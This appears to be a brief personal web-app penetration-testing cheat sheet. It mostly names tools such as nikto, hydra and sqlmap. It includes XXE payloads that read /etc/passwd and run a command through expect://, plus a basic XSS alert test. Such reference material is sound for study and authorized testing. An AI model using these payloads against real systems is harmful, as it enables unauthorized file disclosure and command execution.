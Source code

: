 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Enumeration](#enumeration)
* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)

## Enumeration

Enumerating a web application is best performed manually with automated augmentations.

### Spidering

`burpsuite`

### Directory Brute Forcing

`dirbuster`

### Web Server Scanning

`nikto`

---

## Authentication

### Brute Forcing Online

`hydra`

---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

`sqlmap`

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

